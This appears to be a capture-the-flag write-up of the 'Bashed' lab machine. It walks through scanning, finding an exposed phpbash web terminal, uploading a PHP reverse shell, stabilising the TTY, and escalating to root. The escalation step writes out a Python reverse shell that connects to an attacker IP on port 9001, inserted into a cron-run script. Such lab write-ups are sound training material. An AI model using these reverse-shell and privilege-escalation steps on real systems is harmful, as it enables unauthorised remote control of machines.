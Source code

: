 We start by performing a scan to identify the open ports available:

![Descripción de la imagen](./Uploads/Bashed-EscaneoP.png)




We identify that port 80 is open, which immediately suggests we are facing an HTTP server. So, we proceed to analyze the services and versions running on that port:




Now, in my analysis methodology, I like to get ahead and start checking for available subdomains on the server. I usually use Gobuster because it's very hands-on and fast:



Seeing that we have subdomains like images and uploads, we can already get an idea that there might be an attack vector to upload files to the server. But for now, we’ll visit the subdomains to further enumerate potential attack vectors:



In the /dev subdomain we find the most interesting element: phpbash.php. This is a web app that emulates a bash terminal for directory control convenience. With this in place, we have a broad way to extend permissions and make a remote connection. What we’ll do is move to the uploads directory and from there try to download a PHP reverse shell, since we suspect .php files can be executed:

Our PHP reverse shell script:



Next, a quick recon in our web pseudo-terminal:



Now, we’ll upload our reverse shell as follows. We’re going to set a listener port using nc and instruct it to only communicate to transfer the reverse shell:



Now from the pseudo-terminal, we’ll make the request from the path /var/www/html/uploads:



Now we execute the full path from the browser and set a port in listen mode with the same port and IP we configured in the reverse shell script (this must be edited with any text editor):



We receive the connection and will need to treat the TTY. This is useful to execute many common terminal functionalities and avoid easily losing the connection. To do this, we’ll run:



Once we have the terminal on our listener port, we’ll type:

script /dev/null -c bash
Ctrl+z
stty raw -echo ; fg
reset
xterm
export TERM=xterm
export SHELL=bash

Now that we had previously enumerated from the pseudo-terminal, the next step is analyzing how we can escalate privileges vertically to a user with higher permissions, since www-data usually has very limited access.

To do that, we analyze the available sudo permissions with our current user. We notice that we can execute a bash shell as scriptmanager without a password, so we escalate using:

sudo -u scriptmanager bash -i



We perform general recon with ls -la /, and we notice the presence of a scripts directory. Inside, we find a script with execution permissions. So we attempt to modify its content to establish a reverse shell through Python to a new listener port, by modifying and executing that script:

echo 'import socket,subprocess,os' > /scripts/test.py
echo 's=socket.socket(socket.AF_INET, socket.SOCK_STREAM)' >> /scripts/test.py
echo 's.connect(("10.10.14.21", 9001))' >> /scripts/test.py
echo 'os.dup2(s.fileno(),0)' >> /scripts/test.py
echo 'os.dup2(s.fileno(),1)' >> /scripts/test.py
echo 'os.dup2(s.fileno(),2)' >> /scripts/test.py
echo 'p=subprocess.call(["/bin/sh", "-i"])' >> /scripts/test.py



Now on our listener port, we receive the connection as root:



Finally, to capture the user flag user.txt, we visit /home/arrexel, and it is available to read using cat.

